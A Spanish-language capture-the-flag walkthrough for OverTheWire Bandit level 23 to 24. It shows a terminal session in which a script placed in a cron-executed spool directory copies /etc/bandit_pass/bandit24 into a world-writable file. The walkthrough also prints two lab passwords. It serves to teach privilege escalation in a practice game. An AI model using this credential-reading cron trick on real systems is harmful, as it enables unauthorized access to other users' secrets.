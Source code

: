 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso al Nivel
bandit23
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
## Solución
```bash
bandit23@bandit:~$ whoami
bandit23
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ chmod 777 /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:~$ cd /tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password" > script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ touch password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4026 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ pwd
/tmp/tmp.Xh9c5GpR3S
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4029 root     root     11063296 Sep  4 16:37 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.Xh9c5GpR3S/password
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:09 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:24 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ date
Wed Sep  4 04:38:37 PM UTC 2024
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.Xh9c5GpR3S$
```
## Notas Adicionales
mktemp -d - Crea una carpeta temporal dentro de /tmp 
## Referencias
